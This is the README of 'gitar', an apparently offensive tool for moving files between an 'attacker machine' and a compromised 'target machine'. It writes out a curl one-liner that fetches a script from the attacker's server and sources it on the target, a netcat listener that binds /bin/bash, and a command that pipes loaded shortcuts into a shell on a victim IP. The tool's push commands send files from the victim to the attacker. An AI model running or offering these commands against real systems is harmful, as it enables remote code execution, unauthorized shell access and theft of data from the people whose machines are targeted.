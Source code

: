 # 🎸 gitar 

<div align="center">
<code><b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from my <q>target machine</q></code>
</div>

----

## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

### Pre-requisite

* Network connectivy trough http between attacker & target machine
*[target machine] <--http--> [Attacker machine]*

* On target machine: `nc`,`cat`, `curl` 
	* and `tar` for upload directory 

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
 2. <sup>(Target machine)</sup> get shortcuts from `/alias` endpoint and source them. The one-liner corresponding would be provided in 1. step: `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within: `export CMD=[get & source shortcuts one-liner] && (echo $CMD && cat) | nc [VICTIM_IP] 4444`

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
-   HTTPS, basic authent (for the file server part)
-   Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 

**Improve UX**
-   Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
-  Endpoint outputting the tree structure of the file server (for `pull`file possibility)
-  Download directory support 
-  Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`

